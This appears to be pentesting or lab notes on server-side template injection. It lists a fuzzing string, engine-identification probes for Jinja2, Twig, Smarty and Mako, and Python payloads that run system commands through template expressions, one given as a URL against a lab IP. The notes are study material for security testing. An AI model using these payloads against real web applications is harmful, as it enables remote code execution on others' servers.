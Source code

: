 - Detection by fuzzing
	- `${{<%[%'"}}%`
- Identify template engine
	- `{{7*'7'}}` - Jinja2 or Twig
	- `a{*comment*}b` - Smarty
	- `${"z".join("ab")}` - Mako
- Python injection payload:
	- `{% import os %}{{ os.system("whoami") }}`
	- `{{ ''.__class__.__mro__[1].__subclasses__() }}` 
		- `mro` is used to access parent level class
		- `subclasses` - access sub class
	- Find the `subprocess` module in the subclasses and run the command
		- `http://10.10.110.245:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}`
- [Other payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- 